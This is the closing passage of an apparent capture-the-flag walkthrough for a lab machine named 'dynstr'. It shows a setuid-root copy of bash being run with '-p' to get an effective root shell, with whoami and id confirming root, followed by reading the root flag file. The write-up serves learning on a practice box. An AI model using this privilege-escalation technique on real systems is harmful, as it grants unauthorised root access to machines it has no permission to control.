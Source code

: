 ## Root Flag

It worked and we can see bash has been copied to the folder, it's owned by root but still has the s bit set so we can execute it as our user:

```text
bindmgr@dynstr:/etc/bind/named.bindmgr$ ./bash -p
bash-5.0# whoami
root
bash-5.0# id
uid=1001(bindmgr) gid=1001(bindmgr) euid=0(root) egid=117(bind) groups=117(bind),1001(bindmgr)
bash-5.0# cat /root/root.txt
<HIDDEN>
```

That was a pretty tricky box for me, so hopefully I've done it justice with this walk-through.

All done. See you next time.
